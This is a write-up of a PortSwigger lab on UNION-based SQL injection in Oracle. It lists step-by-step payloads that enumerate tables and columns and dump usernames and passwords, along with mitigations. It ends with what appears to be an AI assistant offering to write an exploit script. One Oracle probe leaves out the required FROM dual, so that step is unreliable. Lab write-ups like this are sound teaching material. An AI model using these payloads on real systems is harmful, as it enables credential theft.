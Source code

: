 # SQL injection attack, listing the database contents on Oracle

**Lab banner – PortSwigger Practitioner level**

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on Oracle databases”*, we demonstrated how an attacker can enumerate Oracle database tables, their columns, and sensitive user credentials using a series of UNION SELECT queries against the `all_tables` and `all_tab_columns` system views. Because the application concatenates user input directly into SQL statements without sanitisation, we pivoted from initial UNION tests to full schema enumeration and credential harvesting.

---

## Description

**Lab banner – PortSwigger Practitioner level**

This lab challenges us to exploit a UNION-based SQL injection vulnerability in an Oracle database. By abusing Oracle’s metadata views, we were able to extract the names of database tables, enumerate columns of interest, and dump stored usernames and passwords.

---

## Why This Matters to You

* **Full data breach**: Oracle’s system views (`all_tables`, `all_tab_columns`) make schema enumeration straightforward once injection is possible.
* **Persistence risk**: Knowledge of table and column structures allows attackers to craft further malicious queries or establish backdoors.
* **Compliance violations**: Harvesting plaintext or weakly hashed credentials can trigger GDPR, CCPA, or equivalent reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                          | Intended SQL generated by the app                                                                                                 | What actually happens & why                                                     |
| - | --------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| 1 | Confirmed number and type of columns via UNION injection (2 columns, both strings).                                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT 'a','b'--`                                                               | Verified injection point and established query structure.                       |
| 2 | Enumerated tables with:<br>`' UNION SELECT table_name,NULL FROM all_tables--`                                                           | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name,NULL FROM all_tables--`                                       | Retrieved all table names. Identified `USERS_TOAEAL` as the target users table. |
| 3 | Enumerated columns for `USERS_TOAEAL` with:<br>`' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Revealed sensitive columns `USERNAME_DINZLR` and `PASSWORD_BTNGGB`.             |
| 4 | Extracted credentials with:<br>`' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | Retrieved full list of usernames and passwords.                                 |
| 5 | Logged in using harvested credentials.                                                                                                  | —                                                                                                                                 | Administrative access granted, lab solved.                                      |

---

## Observable Output

| Test / Payload                                                                           | Visible Result                                 | What it Proved                       |
| ---------------------------------------------------------------------------------------- | ---------------------------------------------- | ------------------------------------ |
| `' UNION SELECT 'a','b'--`                                                               | Page rendered with injected values             | Confirmed 2-column structure.        |
| `' UNION SELECT table_name,NULL FROM all_tables--`                                       | List of Oracle system + custom tables          | Schema enumeration successful.       |
| `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Displayed `USERNAME_DINZLR`, `PASSWORD_BTNGGB` | Sensitive column names identified.   |
| `' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | List of usernames and passwords                | Full credential disclosure achieved. |

---

## Conclusion

By leveraging UNION-based SQL injection against Oracle system views, we escalated from basic injection discovery to a full schema compromise, ultimately harvesting usernames and passwords. The lab highlights the risk of unsanitised SQL concatenation in Oracle environments.

**Mitigations**:

* Use parameterised queries (prepared statements) instead of string concatenation.
* Apply least-privilege roles to database users so applications cannot query metadata views.
* Enforce secure password storage (strong hashing, salting).

---

Would you like me to also **recreate the Python automation script (script.py)** in the same professional format for this Oracle lab write-up? That way, your walkthrough will look like a full pentest report + exploit code package.
